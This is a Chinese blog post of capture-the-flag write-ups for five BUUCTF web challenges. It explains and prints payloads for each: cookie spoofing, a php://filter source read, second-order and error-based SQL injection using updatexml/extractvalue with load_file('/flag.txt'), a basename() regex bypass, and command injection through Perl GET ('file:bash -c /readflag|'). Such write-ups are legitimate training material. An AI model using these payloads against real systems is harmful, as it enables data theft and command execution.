




<!--yml
category: 未分类
date: 2022-04-26 14:33:38
-->

# BUUCTF__web题解合集（十二）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/108922173](https://blog.csdn.net/tm_1024/article/details/108922173)

## 前言

## 题目

### 1、[BSidesCF 2019]Kookie

*   虽然是很简单，但是有点难想。

*   只需在请求头中加上cookie发包请求就行。

    ```
    cookie:username=admin 
    ```

### 2、[CISCN2019 华北赛区 Day1 Web5]CyberPunk

*   首先可以通过首页的源代码中发现提示，然后有PHP伪协议可以读取源代码。
    

    ```
    ?file=php://filter/read=convert.base64-encode/resource=index.php 
    ```

*   可以得到所有的源代码，进行代码审计。 注意到两个部分。

*   第一点就是在提交订单时的`confirm.php`，对输入的姓名电话地址几乎无过滤，虽然有一个黑名单，但没起到作用，匹配到黑名单后还会往下继续执行。

*   第二点就是在修改订单信息的`change.php`，对于输入的地址有一个`addslashes`转义处理，这就导致输入的`address`变量在这里不可利用。

*   但是在执行修改sql语句时，还是有将原来的地址取出放入sql语句。

    ```
    $address = addslashes($_POST["address"]);

    $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id']; 
    ```

*   也就是有一个利用漏洞，因为在提交订单时没有过滤，在提交订单时将payload放入地址，在修改订单信息时随便输入一个新地址，但是旧地址也在sql语句中执行。可以利用报错注入。

*   但是很重要一点，flag在哪，可以一步一步爆库爆表直到得到字段内容，没有flag。最终 flag 在`flag.txt`。通过`load_file`函数来读取文件内容。

*   payload

    ```
    1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

    1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)# 
    ```

*   一步一步来做的话，可能不算难，但有点麻烦。二次注入，不是什么新知识点，关键是代码审计知道利用点。

### 3、[RCTF2015]EasySQL

*   登录注册修改密码，盲猜就是二次注入。

*   在注册时，如果用户名中含双引号`"`或者注释符`\`，在修改密码时，会引发报错，可以发现，sql语句为双引号闭合，并且可能存在报错注入。同时可以猜测后端sql语句的形式为

    ```
    update users set password='xxxx' where username="xxxx" and pwd='xxxx' 
    ```

*   进一步尝试报错注入获取数据库名称。存在空格过滤，并且`and`和`or`也被过滤，可以用`&&`或`||`代替，空格则用括号分割sql语句来避免使用。

*   注册时输入用户名为payload，在修改密码提交时触发报错。

    ```
    2"&&extractvalue(1,concat(0x7e,(select(database()))))# 
    ```



*   继续爆表，得到表 article、flag、users

    ```
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))))# 
    ```

*   爆字段都一样，真正的flag在users表里，但字段名显示时由于有长度限制，所以没有显示完全，可以正序倒序一起来一下，也有用正则匹配输出的，确认 flag 所在字段名为`real_flag_1s_here`

    ```
    正序 
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#   

    倒序   
    2"&&extractvalue(1,concat(0x7e,reverse((select(group_concat(column_name))from(information_schema.columns)where(table_name='users')))))#

    正则           
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))# 
    ```

*   开始直接输出全部的话，发现前面有很多干扰内容。并且分块截取的函数都被过滤了，所以只能用正则，最终得到flag。

    ```
    正序 
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#

    逆序
    2"&&extractvalue(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))))# 
    ```

*   发现了注入点的话，后面就应该不难。

### 4、[Zer0pts2020]Can you guess it?

*   首先源码给出了，flag的位置给出了，有一个好像是利用点

```
$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
} 
```

*   当`$secret`和`$guess`变量字符串相等时，输出flag，但是`$secret`变量是生成的随机数，虽然之前做过伪随机数的破解，但这里并没有利用点，所以，基本不可能相等。
*   看下面的一部分代码，会显示从当前url地址中获取最后一个文件名。当我们的url是`/index.php/config.php`时会触发前面的正则过滤。当我们的url是`/index.php/config.php/index.php`时，回显的是首页。说明url不能以`config.php`结尾，但是要读取它的话又必须让返回值为`config.php`。

```
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
} 
```

*   当`basename`函数解析到ASCII码数值之外的字符时，会忽略它，[官方文档介绍](https://bugs.php.net/bug.php?id=62119)，ASCII值范围为0-255，但ASCII码并没有规定编号为128~255的字符，ASCII表范围为0-127，也就是我们传入128(%80)以上的数值，即可绕过正则

    ```
    index.php/config.php/%80?source

    basename（）在文件名的开头丢弃非ASCII字符。

    basename() drops non-ASCII-chars at the beginning of a filename. 
    ```

*   也就是如下，因为`%80`被丢弃，`basena me($_SERVER['PHP_SELF'])`返回的将是`config.php`，同时没有以`config.php`结尾，绕过了前面的正则，成功得到flag。

*   虽然在题目环境中的确成功了，但是单独拿出来没能得到结果，是不是理解错了什么。
    

*   就一点，关于`basename（）`函数的这个特性。

### 5、[HITCON 2017]SSRFme



*   于是，只需要给url赋值`/`就能看到根目录，同理去读根目录下的flag文件发现失败，原因是flag不在文件中，有一个readflag文件，应该是通过它来获取flag。

    ```
    ?url=/&filename=qqq

    url/sandbox/md5("orange".'题目给的ip')/qqq 
    ```

*   然后就是本题的知识点，[perl脚本中GET命令执行漏洞](https://blog.csdn.net/qq_45521281/article/details/105868449)

*   写的太好了。。。感觉我再说都是废话。。。逻辑线就是GET命令会在底层调用open函数，而open函数又利用了perl脚本来实现，再因为open函数支持file协议，而perl在处理file协议时会path参数可控，所以存在命令执行的漏洞
    

*   所以，先创建一个文件名为执行命令的文件

    ```
    ?url=file:bash -c /readflag|&filename=bash -c /readflag| 
    ```

*   再次执行文件名存在而执行代码写入

    ```
    ?url=file:bash -c /readflag|&filename=b 
    ```

*   最后访问成功解题

    ```
    url/sandbox/md5("orange".'题目给的ip')/b 
    ```

*   还有另一种方法弹shell，没有vps就不复现了。有一说一，这题不是很懂执行的原因，就记GET命令可能存在代码执行漏洞了。。。

## 最后

*   越来越怀疑自己学的啥
*   欢迎各位指正交流。留言会在第一时间回复。